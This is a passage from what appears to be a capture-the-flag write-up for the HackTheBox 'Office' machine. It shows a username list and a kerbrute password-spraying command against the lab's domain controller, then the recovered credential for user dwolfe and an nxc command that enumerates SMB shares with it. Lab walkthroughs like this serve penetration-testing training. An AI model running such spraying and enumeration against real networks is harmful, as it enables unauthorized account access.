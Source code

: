 User list:

```
administrator
Administrator
ewhite
etower
dwolfe
dmichael
dlanor
hhogan
DWOLFE
DLANOR
```

The command for Password Spraying attack:

```bash
./kerbrute_linux_amd64 passwordspray -t 100 -d office.htb --dc dc.office.htb users "H0lOgrams4reTakIng0Ver754!"
```

![kerbute_result](images/Office10.png)

```
dwolfe@office.htb:H0lOgrams4reTakIng0Ver754!
```

### Phase 4: Internal Enumeration (SMB + PCAP Analysis)

Now that we know creds let's enum services such as smb:

```bash
nxc smb office.htb -u dwolfe -p 'H0lOgrams4reTakIng0Ver754!' --shares
```
